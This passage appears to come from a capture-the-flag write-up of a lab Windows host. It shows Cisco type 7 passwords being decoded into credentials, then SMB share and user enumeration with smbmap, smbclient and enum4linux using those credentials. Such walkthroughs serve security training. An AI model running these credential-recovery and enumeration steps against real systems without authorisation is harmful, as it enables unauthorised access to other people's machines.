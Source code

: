I get the password `stealth1agent`.

Reading about Cisco encrytion algorithms, it appears that Cisco's type 7 encryption algorithm is deprecated and weak. Googling some online tools I find a [decrytor](https://www.ifm.net.nz/cookbooks/passwordcracker.html):

```
0242114B0E143F015F5D1E161713 -> rout3r:$uperP@ssword
02375012182C1A1D751618034F36415408 -> admin:Q4)sJu\Y8qz*A3?d
```

### tcp/445

Attempting to enumerate NULL shares:

```s
$ smbmap -u '' -p '' -H 10.10.10.149                   
[!] Authentication error on 10.10.10.149
```

Next I try the credentials `hazard:stealth1agent`

```s
$ smbmap -u 'hazard' -p 'stealth1agent' -H 10.10.10.149
[+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

When connecting to `IPC$` and attempting enumeration, I was met with:

```s
$ smbclient \\\\10.10.10.149\\IPC$ -U "hazard"           
Password for [WORKGROUP\hazard]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
```

I use `enum4linux` to auto-enumerate everything for me:

```s
$ enum4linux -a -u 'hazard' -p 'stealth1agent' 10.10.10.149
...<snip>...
S-1-5-21-4254423774-1266059056-3197185112-500 SUPPORTDESK\Administrator (Local User)
S-1-5-21-4254423774-1266059056-3197185112-501 SUPPORTDESK\Guest (Local User)
S-1-5-21-4254423774-1266059056-3197185112-503 SUPPORTDESK\DefaultAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-504 SUPPORTDESK\WDAGUtilityAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-513 SUPPORTDESK\None (Domain Group)
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (Local User)
...<snip>...
```
